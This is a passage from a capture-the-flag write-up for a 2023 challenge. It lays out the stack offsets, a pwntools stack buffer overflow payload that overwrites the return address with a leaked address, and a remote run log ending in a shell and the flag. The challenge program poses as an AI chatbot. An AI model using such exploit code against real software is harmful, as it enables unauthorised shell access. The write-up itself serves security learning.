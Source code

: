 *   `1032` bytes of buffer (it's likely 1024, but with some padding)
*   `8` bytes for `i`
*   `8` bytes for saved `RBP`

```python
print(io.recvuntilS(b">"), end="")
payload = b'Please censor the following text: ' \
          + b'A'*(1032+8+8) \
          + pwn.util.packing.p64(debugAddr)
io.sendline(payload)
io.interactive()
```

This makes for a reproducible local attack, giving a shell.

# Getting the flag

When running all this against remote:

```
./exploit.py 
[+] Opening connection to xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.library.m0unt41n.ch on port 1337: Done
Hi there, as an AI language model I can answer any questions you have for you.
What would you like to know?
>Of course, from now on I'll refer to you as 2313748480
What would you like to know?
>Of course, from now on I'll refer to you as 0x55d07f5c8421
What would you like to know?
>Certainly, I will grant you administrator access.
What would you like to know?
>[*] Switching to interactive mode
$ cat flag.txt
shc2023{4rt1fic1al_1nt3ll1genc3_0r_just_1f_3lse_ac1d94c3a6283e}
```

---

## `shc2023{4rt1fic1al_1nt3ll1genc3_0r_just_1f_3lse_ac1d94c3a6283e}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
